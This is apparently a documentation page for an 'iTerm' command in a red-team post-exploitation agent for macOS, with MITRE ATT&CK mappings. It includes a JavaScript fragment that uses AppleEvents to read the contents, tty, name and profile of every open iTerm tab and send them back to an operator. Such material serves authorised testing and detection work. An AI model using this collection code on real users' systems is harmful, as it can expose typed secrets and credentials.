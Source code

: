 +++
title = "iTerm"
chapter = false
weight = 100
hidden = false
+++

## Summary

Read the contents of all open iTerm tabs if iTerms is open, otherwise just inform the operator that it's not currently running 
- Needs Admin: False  
- Version: 1  
- Author: @its_a_feature_  

{{% notice warning %}} In Mojave+ (10.14+) this will cause a popup the first time asking for permission for your process to access iTerm. {{% /notice %}}

### Arguments

## Usage

```
iTerm
```

## MITRE ATT&CK Mapping

- T1139  
- T1056  
## Detailed Summary
This uses AppleEvents to read the contents of iTerm tabs:
```JavaScript
if(term.running()){
    for(let i = 0; i < term.windows.length; i++){
        let window = {};
        for(let j = 0; j < term.windows[i].tabs.length; j++){
            let tab_info = {};
            tab_info['tty'] = term.windows[i].tabs[j].currentSession.tty();
            tab_info['name'] = term.windows[i].tabs[j].currentSession.name();
            tab_info['contents'] = term.windows[i].tabs[j].currentSession.contents();
            tab_info['profileName'] = term.windows[i].tabs[j].currentSession.profileName();
            window["Tab: " + j] = tab_info;
        }
        output["Window: " + i] = window;
    }
}
```
